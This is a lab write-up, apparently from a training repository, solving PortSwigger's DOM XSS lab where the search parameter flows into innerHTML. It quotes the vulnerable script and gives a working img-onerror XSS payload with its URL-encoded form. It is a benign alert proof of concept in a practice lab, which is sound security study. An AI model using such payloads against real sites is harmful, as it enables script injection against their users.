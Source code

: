 # DOM XSS in innerHTML sink using source location.search

**Lab Url**: [https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink](https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink)

![Lab Description](img/lab-description.png)

## Analysis

As usual, the initial step is to understand how the vulnerable application works and gather information about the target system. This application also serves as a collection of blog posts. It also has a search bar on top of it. The search bar contains a form that requests the user **search query** using the `GET` Method.

The search page contains a `<script></script>` tag with the `doSearchQuery` function inside it.

```javascript
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

This function takes the **search parameter** and appends it's content inside `<span id="searchMessage"></span>` as raw HTML.

## Payload

With the correct payload, we can escape the DOM and inject a `<script></script>` tag.

```html
<img src=xxx onerror="alert(document.domain)" />
```

```bash
/?search=<img+src%3Dxxx+onerror%3D"alert%28document.domain%29"+%2F>
```

The payload was successful, and we successfully popped up an alert box.

![Lab Solved](img/lab-solved.png)
